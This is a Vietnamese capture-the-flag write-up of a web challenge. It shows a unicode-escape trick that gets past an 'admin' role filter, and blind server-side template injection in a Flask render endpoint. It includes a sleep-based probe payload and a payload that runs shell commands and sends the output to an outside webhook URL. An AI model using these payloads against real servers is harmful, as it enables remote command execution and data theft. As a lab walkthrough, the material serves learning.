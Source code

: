 # Đề bài:

![Screenshot 2024-11-08 171245](https://github.com/user-attachments/assets/3eda7452-5bbe-4af0-9e87-d3fab49c075d)

# Walkthrough:
- Do writeup này được viết khi giải đã kết thúc nên chúng ta sẽ làm trên localhost
### Step 1: Lấy role admin:
- Chúng ta sẽ phải vào register để đăng kí tài khoản trước:
  
![Screenshot 2024-11-08 171944](https://github.com/user-attachments/assets/a4684073-9cf3-4201-a183-249d70733f9f)

- Tiến hành đăng kí tài khoản xong check proxy ta có:

![Screenshot 2024-11-08 173005](https://github.com/user-attachments/assets/f6b198f3-125e-4679-8c13-7a7b9ba32331)

- Vậy nên ta chỉ cần đổi role thành admin là có quyền admin, tuy nhiên đoạn code này đã filter "admin" lại, vậy thì chúng ta sẽ phải mã hóa chữ admin để bypass
- Ở đây ta xài dạng unicode của chữ admin là: \u0061\u0064\u006d\u0069\u006e
![Screenshot 2024-11-08 173251](https://github.com/user-attachments/assets/ca9c264b-73ae-4edc-83e3-a665727374eb)

- Vậy là ta đã có được role admin
### Step 2: Blind SSTI:
- Sau khi đăng nhập thành công, ta vào render và sửa 1 số phần đề phù hợp với 1 request POST hợp lệ(Đôi http method, thêm content type, thêm value):
![Screenshot 2024-11-08 173716](https://github.com/user-attachments/assets/9d545ee4-538d-4fc8-b692-d6f57b7a8b9b)

```
    data = request.get_json()
    template = data.get("template")
    rendered_template = render_template_string(template)
```
- Đây chắc chắn là vuln ssti và khi gửi thành công, server trả vể là done => blind ssti
- Để kiếm chứng hãy ốp payload: ```{{ cycler.__init__.__globals__.os.popen('sleep 10').read() }}``` vô và kiểm chứng
![Screenshot 2024-11-08 174110](https://github.com/user-attachments/assets/bcc04e4c-74f7-45c9-ae58-450c4398f192)
- Thời gian server trả kết quả là 10 229 milis, tức là hơn 10s 1 xíu => Confirm là inject
- Cách làm là ta sẽ tìm cách chuyển kết quả của câu lệnh sang trang webhook
- Payload:
  ```
  url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://123/?flag=' + url_for.__globals__['os'].popen('cat * | grep \"ISIT\"').read())
  ```
- Flag sẽ được in ra ở respone
